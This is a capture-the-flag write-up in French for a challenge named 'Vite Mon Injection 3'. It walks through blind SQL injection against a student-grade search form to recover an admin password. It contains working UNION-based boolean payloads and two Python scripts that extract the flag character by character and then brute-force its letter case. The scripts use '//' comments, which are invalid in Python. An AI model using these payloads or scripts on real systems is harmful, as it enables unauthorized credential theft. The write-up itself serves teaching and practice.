

# Vite Mon Injection 3




## Challenge :

Récupérer le mot de passe de l'admin

## Stratégie :

On peut déjà regarder comment ça fonctionne :

 - Avec `1` => `Pas de résultat`
 - Avec `1 or 1=1` => `Vous devez être authentifié pour avoir accès aux résultats`

On va voir une requête simple :

 - `1; SELECT username, password FROM infos` => `La commande n'a pas marché`
 - `1; SELECT password FROM infos where username='admin'` => `La commande n'a pas marché`
 
On peut se dire que derrière la bonne donnée n'entre pas au bon endroit.
Essayons un UNION

 - `1 UNION SELECT password FROM infos WHERE username = 'admin';` => `Vous devez être authentifié pour avoir accès aux résultats`
 
Hmmm un peu plus complexe..

Essayons ceci :

 - `1 UNION SELECT 'test';` => `Vous devez être authentifié pour avoir accès aux résultats`
 - `1;` => `Pas de résultat`
 
Ahah ! On peut déterminer si notre SELECT retourne "Oui" ou "Non" !

 - `1 union select username from infos where password like 'H%';` => `Vous devez être authentifié pour avoir accès aux résultats` (Oui)
 - `1 union select username from infos where password like 'B%';` => `Pas de résultat` (Non)
 
Ainsi on sait par quoi commence le flag !
On peut automatiser ceci :

```py
import requests
url = "https://sql3.valekoz.fr/recherche_note"

r = "1 union select username from infos where password like '&&%';"
i=0
alp = "{}13457ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz26890_"
current = "HTN"
while True:
	req = r.replace("&&", current+alp[i])
	pl = {"num_etudiant": req}
	resp = requests.post(url,pl)
	if "résultats" in resp.text:
		// Good case
		current = current+alp[i]
		print(current)
		i = 0
	else:
		// Bad case
		i += 1
```

Ce qui nous donnera un flag (tout en majuscule par contre)

On peut ensuite chercher le bon flag :

```py
import random 
import requests
url = "https://sql3.valekoz.fr/recherche_note"
r = "1 union select username from infos where password = '&&';"
current = "HTN{vraiflagici}"

def randomcase(s): 
	result = '' 
	for c in s: 
		case = random.randint(0, 1) 
		if case == 0: 
			result += c.upper() 
		else: 
			result += c.lower() 
	return result 

while True:
	current = randomcase(current)
	req = r.replace("&&", current)
	pl = {"num_etudiant": req}
	resp = requests.post(url,pl)
	if "résultats" in resp.text:
		// Good case
		print(current)
```

Un peu bourrin mais ça marche.